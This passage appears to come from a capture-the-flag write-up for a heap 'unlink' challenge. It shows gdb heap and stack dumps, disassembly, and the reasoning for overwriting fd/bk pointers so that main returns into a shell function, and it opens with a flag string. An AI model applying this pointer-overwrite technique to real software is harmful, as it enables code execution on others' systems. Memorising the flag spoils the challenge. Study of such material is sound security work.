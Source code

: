```Mak1ng_shelLcodE_i5_veRy_eaSy```
    * 4+4+8 bytes = 0x10 bytes
  * unlink
    ```c
    void unlink(OBJ* P){
      OBJ* BK;
      OBJ* FD;
      BK=P->bk;
      FD=P->fd;
      FD->bk=BK;
      BK->fd=FD;
    }
    ```
    * Normally, it'll make the target object's fd points to target object's bk and vice versa
    * With heap overflow we can control all the value of pointers
* Stack layout
  ```sh
  gdb-peda$ x/10wx 0xffffa8f4
                 |OBJ A addr|    |OBJ C addr|    | OBJ A addr|
  0xffffa8f4:     0x09906410      0x09906440      0x09906428
  ```
* Heap layout
  ```sh
  gdb-peda$ x/20wx 0x09906410-8
                 |        OBJ A header      |    | A -> fd  |    | A -> bk  |
  0x9906408:      0x00000000      0x00000019      0x09906428      0x00000000
                 |        A -> buf          |    |        OBJ B header      |
  0x9906418:      0x00000000      0x00000000      0x00000000      0x00000019
                 | B -> fd  |    | B -> bk  |    |        B -> buf          |
  0x9906428:      0x09906440      0x09906410      0x00000000      0x00000000
                 |        OBJ C header      |    | C -> fd  |     | C -> bk |
  0x9906438:      0x00000000      0x00000019      0x00000000      0x09906428
                 |        C -> buf          |
  0x9906448:      0x00000000      0x00000000
  ```
* shell function address
  ```sh
  gdb-peda$ p shell
  $1 = {<text variable, no debug info>} 0x80484eb <shell>
  ```
### [Exploit](unlink/exp.py)
* Find out how to control the return address of main such that we can redirect the control flow to execute shell function
  ```c
  0x080485f2 <+195>:   call   0x8048504 <unlink>
  0x080485f7 <+200>:   add    esp,0x10
  0x080485fa <+203>:   mov    eax,0x0
  0x080485ff <+208>:   mov    ecx,DWORD PTR [ebp-0x4]
  0x08048602 <+211>:   leave  // mov esp, ebp; pop ebp
  0x08048603 <+212>:   lea    esp,[ecx-0x4]
  0x08048606 <+215>:   ret    // pop eip
  ```
  * There's an unusual instruction between ```leave``` and ```return```. The instruction ```lea esp,[ecx-0x4]``` will modify the value on the stack and thus affect the value of return address
  * return address = eip = [esp] = [ecx-0x4] = [[ebp-0x4]-0x4]
    * We want this value to be the address of shell function, i.e. 0x80484eb
  * ebp will be the same value across main function, so we have to find out if it's possible to control the value at address ebp-0x4
* Find offsets
  ```sh
  gdb-peda$ x/wx $ebp-0x4
  0xfff5be94:     0xfff5beb0

  gdb-peda$ x/10wx 0xfff5be84
                  |   A    |      |    C   |      |    B   |
  ```